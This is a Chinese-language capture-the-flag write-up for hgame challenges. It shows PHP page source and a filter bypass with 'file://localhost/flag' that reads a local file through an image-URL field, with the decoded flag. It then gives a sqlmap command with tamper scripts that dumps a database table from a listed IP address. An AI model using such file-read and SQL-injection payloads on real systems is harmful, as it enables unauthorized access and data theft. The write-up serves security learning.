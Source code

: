 ```
                <p><label>图片url: <input type="text" name="img_url" placeholder=""></label></p>
                <p><button type="submit" name="submit">插入</button></p>
            </fieldset>
        </form>
        <fieldset style="width: 30%;height: 20%;float:left">
                <legend>评论管理</legend>
                <h2>待开发..</h2>
        </fieldset>
        <fieldset style="width: 30%;height: 20%;">
                <legend>文章列表</legend>
                <h2>待开发..</h2>
        </fieldset>
        <fieldset style="height: 50%">
            <div style="text-align: center;">
                <img height='200' width='500' src='data:image/jpeg;base64,<?php echo insert_img() ? insert_img() : base64_encode(file_get_contents("static/error.jpg")); ?>'>
            </div>
        </fieldset>
    </body>
</html>
```

看到有一个过滤:

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165525.png)

于是：

```
file://localhost/flag
```

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165535.png)

```
aGdhbWV7cEhwXzFzX1RoM19CM3NUX0w0bkd1NGdFIUAhfQo=
```

base64解码：

hgame{pHp_1s_Th3_B3sT_L4nGu4gE!@!}

 

 

#### Cosmos的留言板

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165546.png)

最开始没有发现什么思路，后来是用kali下的sqlmap扫了出来，这里要用到sqlmap的tamper

这里就直接上playload:

```
sqlmap -u "http://139.199.182.61/index.php?id=1" -D easysql -T f1aggggggggggggg -C fl4444444g --dump --tamper "randomcase.py,space2comment.py"
```

hgame{w0w_sql_InjeCti0n_Is_S0_IntereSting!!}